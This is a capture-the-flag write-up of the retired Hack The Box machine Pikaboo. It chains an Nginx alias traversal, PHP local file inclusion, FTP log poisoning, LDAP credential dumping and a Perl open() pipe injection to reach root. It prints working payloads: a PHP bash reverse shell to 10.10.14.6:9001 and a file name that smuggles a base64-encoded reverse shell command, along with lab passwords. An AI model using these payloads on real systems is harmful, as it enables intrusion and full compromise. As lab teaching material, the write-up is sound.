

# Pikaboo

This is the write-up for the box Pikaboo that got retired at the 4th December 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.249    pikaboo.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pikaboo.nmap 10.10.10.249
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 17e113fe666d26b69068d030542ee29f (RSA)
|   256 928654f7cc5a1a15fec609cce57c0dc3 (ECDSA)
|_  256 f4cd6f3b199ccf33c66da5136a610142 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Pikaboo
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service is a custom developed website and there is a menu on top that forward to different directories:
- Pokatdex --> _pokatdex.php_

There are several links that forward to _pokeapi.php?id=_ with a number as the value of the parameter, but all show that the API Integration is not implemented yet:
```
PokeAPI Integration - Coming soon!
```

- Contact --> _contact.php_

The Contact page does nothing.

- Admin --> _admin_

The _admin_ directory is asking for credentials via **Basic Authorization**.
When sending wrong credentials, it results in an HTTP status code _401 Unauthorized_ and shows an **Apache** error code:
```
Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 81
```

The initial scan showed that it was an **Nginx** server, so it looks like there is a proxy that forwards to this Apache web server.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.249 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It does not find interesting directories, but it seems like that any path containing the word _"admin"_ results in the HTTP status code _401 Unauthorized_.

This indicates that the _location_ statement in the **Nginx configuration** is vulnerable to a [Local File Inclusion misconfiguration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration).

A common directory in Apache is the _server-status_ directory, which can be accessed by using the LFI misconfiguration:
```
http://10.10.10.249/admin../server-status
```

This page is leaking some more pages like _/admin_staging_ which is also asking for authorization, but can still be accessed by using the same vulnerability:
```
http://10.10.10.249/admin../admin_staging/
```



### Exploiting Admin Dashboard

When browsing through the menus, they are all called through _index.php_:
```
http://10.10.10.249/admin../admin_staging/index.php?page=dashboard.php
```

This could have another **Local File Inclusion** vulnerability and can be tested by using a PHP filter:
```
http://10.10.10.249/admin../admin_staging/index.php?page=php://filter/convert.base64-encode/resource=dashboard.php
```

It results in a Base64-encoded string which contains the PHP source code of the specified file:
```
cat dashboard.b64 | base64 -d > dashboard.php
```

After downloading all files and going through them, the file _index.php_ contains an _include_ statement:
```php
if(isset($_GET['page'])) {
      include($_GET['page']);
    }
    else
    {
      include("dashboard.php");
    }
```

The parameter _page_ includes files from the local system and the **LFI** can be proofed by browsing to a path on the server:
```
http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../../var/www/html/admin_staging/dashboard.php
```

Using **wfuzz** to fuzz for Linux directories that can be accessed with the LFI:
```
wfuzz -u http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../..FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt --hh 15349
```
```
/var/log/faillog
/var/log/vsftpd.log
/var/log/wtmp
/var/log/lastlog
```

It is possible to access the _vsftpd.log_ and because it is included in the PHP script, it will execute anything that is in PHP tags.
By sending PHP code to the FTP service on port 21 and then accessing the file, the code will be executed to gain code execution.

### Log Poisoning FTP Logs

Creating PHP code with reverse shell command:
```
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'"); ?>
```

Connecting to FTP and using the PHP code as the username:
```
ftp 10.10.10.249

Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:root): <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```

Browsing to the _vsftpd.log_:
```
http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../../var/log/vsftpd.log
```

After browsing to the log file, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the enabled Nginx sites _/etc/nginx/sites-enabled/default_ it shows the path _/opt/pokeapi/_ which contains the source files of the Open-Source RESTful API [PokeAPI](https://github.com/PokeAPI/pokeapi).

In _config/settings.py_ are credentials for a **LDAP service**:
```
(...)
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
(...)
```

Using **ldapsearch** to enumerate the LDAP service and getting the base name:
```
ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -s base namingcontexts
```

Dumping data from the base:
```
ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b "dc=htb"
```
```
# admin, htb
dn: cn=admin,dc=htb
(...)
description: LDAP administrator
userPassword:: e1NTSEF9bWxhdFNUTzJDZjZ6QjdVL2VyOVBUamtBVE5yZnJiVnE=

(...)

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
(...)
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
```

Decoding the **Base64** password of the users:
```
echo X0cwdFQ0X0M0dGNIXyczbV80bEwhXw== | base64 -d
```
```
_G0tT4_C4tcH_'3m_4lL!_
```

The password of the user _pwnmeow_ works only on the FTP service:
```
ftp 10.10.10.249

Name (10.10.10.249:root): pwnmeow                                                                 
331 Please specify the password.                                                                  
Password:                                                                                         
230 Login successful.
```

By searching for one of the filenames, they can be found in _/srv/ftp/ability_changelog_:
```
find / -iname ability_changelog 2>/dev/null
```

When doing some more enumeration, there is a cronjob in _/etc/crontab_:
```
* * * * * root /usr/local/bin/csvupdate_cron
```

The bash script _csvupdate_cron_ executes _/usr/local/bin/csvupdate_ in the directory _/srv/ftp/_:
```bash
for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

The file _csvupdate_ is a Perl script and has a vulnerability that is described in the talk ["The Perl Jam 2"](https://www.youtube.com/watch?v=RPvORV2Amic).

The following `for` loop contains the vulnerability:
```perl
# (...)
for(<>)                                          
{                              
  chomp;                                   
  if($csv->parse($_))                       
  {                                         
    my @fields = $csv->fields();                                                                  
    if(@fields != $csv_fields{$type})            
    {                                                                                             
      warn "Incorrect number of fields: '$_'\n";                                                  
      next;                                                                                       
    }                                                                                             
    print $fh "$_\n";          
  }
}
```

Encoding a reverse shell command into Base64 without special characters in the result:
```
echo 'bash  -i >& /dev/tcp/10.10.14.6/9001  0>&1  ' | base64 -w 0
```

Creating a CSV file that begins with a pipe:
```
touch -- '|echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85MDAxICAwPiYxICAK|base64 -d|bash;.csv'
```

Uploading the file onto the FTP service:
```
ftp> cd versions

mput |echo\ YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85MDAxICAwPiYxICAK|base64\ -d|bash;.csv
```

The cronjob runs every minute and after that, the listener on my IP and port 9001 starts a reverse shell as root!
